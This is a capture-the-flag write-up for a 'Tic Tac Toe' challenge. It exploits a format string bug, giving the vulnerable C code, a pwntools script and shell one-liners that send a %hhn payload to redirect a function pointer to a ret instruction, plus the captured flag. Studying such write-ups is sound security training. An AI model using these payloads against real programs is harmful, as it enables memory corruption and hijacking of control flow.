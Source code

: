 # Tic Tac Toe - Solution

Created by moka ([Discord](https://discordapp.com/users/661109271148101652))

## Description
> Can you beat me?
<br>
`ssh ttt@challenges2.hexionteam.com -p 3004`</br>
Password: `hexctf`

## Solution
the given executable is a tic-tac-toe game where the AI is unbeatable, and to get the flag you have to win.\
but there's a format string vulnerability we can use to win.
```c
puts("Please enter your name: ");
scanf("%24s", name);
getchar();
snprintf(message, 100, "Welcome %s!\n", name);
printf(message);
```

there's a global pointer storing the function the ai uses to calculate it's next move -\
and so if we overwrite `DIFFICULTY` with the address of a ret, we can immobilize the ai, and beat it.
```c
logic_func DIFFICULTY = IMPOSSIBLE;
```
<br>\
to do that we first need to connect through ssh to the remote and run the executable,\
 then we'll send a payload that overwrite the last bit of the function's address with 0xd4\
which will make it point to ret.
```python
r = ssh('ttt', 'challenges2.hexionteam.com', 3004, password="hexctf").process('./ttt')
fmt = b'%204c%10$hhnAAAA' + p64(0x603010)
# DIFFICULTY:
# IMPOSSIBLE (0x401cd5) -> ret (0x401cd4)
r.sendlineafter(':', fmt)
```

after that we'll send winning moves (place x and then move right etc)\
and then receive the flag.
```python
r.send(' a a qn\n') # win [(x x x) (     ) (     )]
r.recvuntil('hex')
print(b'hex' + r.recvuntil('}'))
```

other cute solutions using pure python:
```python
(python -c "print b'%204c%10\$hhnAAAA' + b'\x100\`'"; cat) | ./ttt
(python3 -c "print ('%204c%10\$hhnAAAA' + '\x100\`')"; cat) | ./ttt
```
<br>

Flag: `hexCTF{h3y_th4ts_ch3at1ng}`
